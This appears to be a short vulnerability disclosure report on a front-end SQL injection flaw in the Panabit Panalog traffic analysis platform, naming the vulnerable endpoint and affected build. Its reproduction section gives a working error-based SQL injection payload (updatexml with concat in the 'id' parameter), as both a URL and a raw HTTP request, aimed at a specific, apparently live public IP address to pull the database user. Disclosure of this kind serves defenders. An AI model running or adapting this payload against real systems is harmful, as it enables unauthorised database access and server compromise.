

Panabit-Panalog Big Data Analysis Platform has a front-end SQL injection vulnerability.

## 1. Vulnerability Description:
Beijing Panabit Network Software Co., Ltd. (https://www.panabit.com/) was founded in 2004, with its headquarters located in Zhongguancun, Beijing. Adhering to the core concept of "Connecting the World Freely," the company's vision is to build an unlimited information world by connecting distant regions as well as bridging the past and the future through advanced network technology.

Panabit-Panalog Big data analysis Platform has an SQL injection vulnerability. Attackers can exploit this vulnerability to access sensitive database information, obtain server permissions, and manipulate server files.

## 2. Affected Component:
BUILDTIME=202103080942

SOFTNAME=流量分析管理系统

## 3. Vulnerability Location:
/Maintain/sprog_upstatus.php

## 4. Vulnerability Reproduction:
IP: https://103.39.233.29/


As shown in the login interface.

Construct POC, successfully obtaining the database user name and host:
https://103.39.233.29/Maintain/sprog_upstatus.php?status=1&id=1%20and%20updatexml(1,concat(0x7e,user()),0)&rdb=1

```
GET /Maintain/sprog_upstatus.php?status=1&id=1%20and%20updatexml(1,concat(0x7e,user()),0)&rdb=1 HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Host: 103.39.233.29


```


